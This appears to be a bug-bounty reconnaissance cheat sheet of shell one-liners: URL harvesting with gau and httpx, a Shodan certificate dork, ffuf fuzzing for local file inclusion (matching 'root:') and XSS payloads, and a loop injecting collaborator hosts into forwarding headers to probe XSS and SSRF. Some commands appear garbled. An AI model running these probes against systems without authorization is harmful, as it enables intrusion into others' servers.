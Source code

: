 ### Content Type Check

Checks the content type of URLs.

echo example.com | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'

### JavaScript Content Check

Checks for JavaScript content in URLs.

echo example.com | gau | grep '\.js-php-jsp-other extens$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

## Shodan Dorks

### SSL Certificate Search

Searches for SSL certificates using Shodan.

Ssl.cert.subject.CN:"example.com" 200

## FFUF Request File Method

### LFI with Request File

Uses FFUF to bruteforce LFI vulnerabilities using a request file.

ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr "root:"

### XSS with Request File

Uses FFUF to bruteforce XSS vulnerabilities using a request file.

ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr "<script>alert('XSS')</script>"

## Advanced Techniques

### XSS/SSRF Header Testing

Tests for XSS and SSRF vulnerabilities using various methods.

cat example.coms.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e "\e[1;32m$url\e[0m""\n""Method[1] X-Forwarded-For: xss+ssrf => $xss1""\n""Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2""\n""Method[3] Host: xss+ssrf ==> $xss3""\n""Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ""\n";done

[Join Telegram](https://t.me/lostsec6)

[](https://github.com/coffinxp "GitHub")